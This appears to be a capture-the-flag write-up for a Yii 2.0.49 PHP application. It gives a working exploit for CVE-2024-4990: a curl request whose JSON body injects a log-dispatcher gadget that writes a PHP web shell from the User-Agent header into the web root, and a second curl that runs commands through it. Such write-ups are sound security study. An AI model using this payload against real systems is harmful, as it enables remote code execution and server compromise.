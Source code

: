 # Writeup
Observation on the application:
- JSON parser for request body is enabled.
- CSRF is disabled.
- Using Yii v2.0.49 (known for CVE-2024-4990).
- Class `app\models\ContactForm` have unsafe `setAttributes` function. Therefore endpoint `/index.php?r=site/contact` is vulnerable.
- All folder have permission mode=777 which means we can write any file.

Here is the step to exploit and gain RCE:
1. Upload a shellcode by utilizing CVE-2024-4990 using class `yii\\log\\Dispatcher` as the gadget.
    ```
    curl --location 'http://<host>/index.php?r=site%2Fcontact' \
        --header 'User-Agent: <?php system($_GET[0]); ?>' \
        --header 'Content-Type: application/json' \
        --data '{
            "ContactForm": {
                "as hack": {
                    "__class": "yii\\log\\Dispatcher",
                    "targets": [
                        {
                            "__class": "yii\\log\\FileTarget",
                            "levels": ["trace", "info"],
                            "logFile": "/opt/app/web/hack.php",
                            "categories": ["yii\\*"]
                        }
                    ]
                }
            }
        }
    ```
2. Execute the shellcode by visiting the `/hack.php?0=<shell here>`.
    ```
    curl --location 'http://<host>/hack.php?0=ls -la /'
    ```

## Read more
- https://github.com/advisories/GHSA-cjcc-p67m-7qxm
- https://insomniasec.com/downloads/publications/Practical%20PHP%20Object%20Injection.pdf
- https://huntr.com/bounties/4fbdd965-02b6-42e4-b57b-f98f93415b8f